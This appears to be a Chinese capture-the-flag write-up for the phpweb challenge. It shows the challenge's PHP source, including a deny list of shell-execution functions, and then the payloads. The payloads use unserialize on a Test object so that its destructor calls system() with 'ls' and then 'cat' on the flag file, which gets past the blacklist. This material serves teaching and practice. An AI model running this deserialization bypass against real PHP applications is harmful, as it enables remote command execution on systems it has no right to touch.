



# [网鼎杯 2020 朱雀组]phpweb

## 知识点

`php反序列化`

## 解题

首页一直在不断请求，源码也没看到什么东西，抓包看下


发现了两个参数，猜测`func`为函数,`p`为参数(`param`),尝试使用`file_get_contents`读取文件



成功读取了`index.php`的源码

```php
<?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?>
```

发现有`析构函数`，且`unserialize`没有禁用,`$p`没有过滤`disable_fun`，那么就可以反序列化`Test`方法来执行命令

`payload`

```php
<?php
    class Test {
        var $p = "ls";
        var $func = "system";
    }

    $a = new Test();
    echo serialize($a);
?>
```



`最终payload`

```php
<?php
    class Test {
        var $p = "cat /tmp/flagoefiu4r93";
        var $func = "system";
    }

    $a = new Test();
    echo serialize($a);
    ?>
```

